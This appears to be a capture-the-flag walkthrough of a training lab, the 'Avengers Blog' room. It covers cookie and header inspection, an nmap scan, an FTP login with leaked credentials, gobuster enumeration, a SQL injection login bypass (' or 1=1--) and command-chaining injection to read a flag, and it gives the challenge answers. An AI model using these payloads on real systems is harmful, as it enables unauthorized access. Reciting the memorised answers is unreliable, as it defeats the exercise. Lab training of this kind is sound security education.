




Learn to hack into Tony Stark's machine! You will enumerate the machine, bypass a login portal via SQL injection and gain root access by command injection.

### TASk 1: Deploy

  

 Start Machine

  

Connect to our network and deploy the Avengers Blog machine 

Answer the questions below

1. Connect to our network by going to your [access page](https://tryhackme.com/access). This is important as you will not be able to access the machine without connecting!

2. Deploy the machine by clicking the green "Deploy" button on this task and access its webserver.

### TASK 2: Cookies

HTTP Cookies is a small piece of data sent from a website and stored on the user's computer by the user's web browser while the user is browsing. They're intended to remember things such as your login information, items in your shopping cart or language you prefer.

Advertisers can use also _tracking_ cookies to identify which sites you've previously visited or where about's on a web-page you've clicked. Some tracking cookies have become so intrusive, many anti-virus programs classify them as spyware.

You can view & dynamically update your cookies directly in your browser. To do this, press **F12** (or right click and select _Inspect_) to open the developer tools on your browser, then click _Application_ and then _Cookies._

1. On the deployed Avengers machine you recently deployed, get the flag1 cookie value.

*ANSWER:* cookie_secrets

### TASK 3: HTTP Headers

HTTP Headers let a client and server pass information with a HTTP request or response. Header names and values are separated by a single colon and are integral part of the HTTP protocol.

  

The main two HTTP Methods are POST and GET requests. The GET method us used to request data from a resource and the POST method is used to send data to a server.

We can view requests made to and from our browser by opening the _Developer Tools_ again and navigating to the _Network_ tab. Have this tab open and refresh the page to see all requests made. You will be able to see the original request made from your browser to the web server.

1. Look at the HTTP response headers and obtain flag 2.

*ANSWER:* headers_are_important

### TASK 4: Enumeration and FTP:

In this task we will scan the machine with nmap (a network scanner) and access the FTP service using reusable credentials.

Lets get started by scanning the machine, you will need nmap. If you don't have the application installed you can use our web-based AttackBox that has nmap pre-installed.

In your terminal, execute the following command:  
`nmap <machine_ip> -v`  

 This will scan the machine and determine what services on which ports are running. For this machine, you will see the following ports open:

  

Port 80 has a HTTP web server running on  
Port 22 is to SSH into the machine  
Port 21 is used for FTP (file transfer)

We've accessed the web server, lets now access the FTP service. If you read the Avengers web page, you will see that Rocket made a post asking for Groot's password to be reset, the post included his old password too!

In your terminal, execute the following command:  
`ftp <machine_ip>`

We will be asked for a username (_groot_) and a password (_iamgroot_). We should have now successfully logged into the FTP share using Groots credentials!

1. Look around the FTP share and read flag 3!

*HINT:* You might have to enter passive mode when accessing the FTP share.

`
ashik@whitedevil:~/Downloads/Tools$ nmap -p 21,22,80 -A -T4 10.10.251.62  
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-12 14:53 IST  
Nmap scan report for 10.10.251.62  
Host is up (0.38s latency).  
  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     vsftpd 3.0.3  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 5a:64:24:7b:cd:76:0f:17:92:3e:0c:18:83:56:bb:4e (RSA)  
|   256 c4:24:77:b1:56:02:06:aa:81:35:ff:db:f2:bd:8c:d2 (ECDSA)  
|\_  256 e7:f0:4b:8b:d2:4c:d3:48:b9:5c:c2:48:7d:72:69:cb (ED25519)  
80/tcp open  http    Node.js Express framework  
|\_http-title: Avengers! Assemble!  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 20.45 seconds
`

**FTP LOGIN**

`
ashik@whitedevil:~/Downloads/Tools$ ftp 10.10.251.62  
Connected to 10.10.251.62.  
220 (vsFTPd 3.0.3)  
Name (10.10.251.62:ashik): groot  
331 Please specify the password.  
Password:  
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp> ls  
200 PORT command successful. Consider using PASV.  
150 Here comes the directory listing.  
drwxr-xr-x    2 1001     1001         4096 Oct 04  2019 files  
226 Directory send OK.  
ftp> cd files  
250 Directory successfully changed.  
ftp> ls  
200 PORT command successful. Consider using PASV.  
150 Here comes the directory listing.  
\-rw-r--r--    1 0        0              33 Oct 04  2019 flag3.txt  
226 Directory send OK.  
ftp> get flag3.txt  
local: flag3.txt remote: flag3.txt  
200 PORT command successful. Consider using PASV.  
150 Opening BINARY mode data connection for flag3.txt (33 bytes).  
226 Transfer complete.  
33 bytes received in 0.00 secs (177.0690 kB/s)  
ftp> exit  
221 Goodbye.
`

*ANSWER:* 8fc651a739befc58d450dc48e1f1fd2e

### TASK 5: GoBuster

Lets use a fast directory discovery tool called GoBuster. This program will locate a directory that you can use to login to Mr. Starks Tarvis portal!

GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.

You can either download GoBuster, or use the Kali Linux machine that has it pre-installed.

Lets run GoBuster with a wordlist (on Kali they're located under **/usr/share/wordlists**):  
`gobuster dir -u http://<machine_ip> -w <word_list_location>`

1. What is the directory that has an Avengers login?

*ANSWER:* /portal

### TASK 6: SQL Injection

You should now see the following page above. We're going to manually exploit this page using an attack called SQL injection.

SQL Injection is a code injection technique that manipulates an SQL query. You can execute you're own SQL that could destroy the database, reveal all database data (such as usernames and passwords) or trick the web server in authenticating you.

To exploit SQL, we first need to know how it works. A SQL query could be `SELECT * FROM Users WHERE username = {User Input} AND password = {User Input 2}` , if you insert additional SQL as the {User Input} we can manipulate this query. For example, if I have the {User Input 2} as `' 1=1` we could trick the query into authenticating us as the **'** character would break the SQL query and 1=1 would evaluate to be true.

To conclude, having our first {User Input} as the username of the account and {User Input 2} being the condition to make the query true, the final query would be:  
``SELECT * FROM Users WHERE username = `admin` AND password = `' 1=1` ``  

This would authenticate us as the admin user.

1. Log into the Avengers site. View the page source, how many lines of code are there?

*HINT:* Have the username and password as ' or 1=1-- (include the apostrophe).

`Login: ' or 1=1--
Password: ' or 1=1--`

*ANSWER:* 223

### TASK 7: Remote Code Execution and Linux

You should be logged into the Jarvis access panel! Here we can execute commands on the machine.. I wonder if we can exploit this to read files on the system.

Try executing the `ls` command to list all files in the current directory. Now try joining 2 Linux commands together to list files in the parent directory: `cd ../; ls` doing so will show a file called flag5.txt, we can add another command to read this file: `cd ../; ls; cat flag5.txt`

But oh-no! The cat command is disallowed! We will have to think of another Linux command we can use to read it!

`cd ../; ls; cat flag5.txt` = it's says command disallow

so we can read the file in reverse

`cd ../; ls; tac flag5.txt`

*ANSWER:* d335e2d13f36558ba1e67969a1718af7

